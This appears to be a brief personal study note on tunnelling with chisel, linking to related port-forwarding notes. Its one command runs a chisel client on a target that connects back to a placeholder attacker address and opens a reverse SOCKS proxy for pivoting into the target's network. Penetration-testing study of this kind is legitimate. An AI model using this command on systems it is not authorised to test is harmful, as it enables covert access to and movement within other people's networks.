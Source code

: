 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

` zet/20221003150108/README.md `

# Related

- [20221014185459](/zet/20221014185459/README.md) kb file named kb/networking/port-forwarding.md
- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:

    #networking #port 
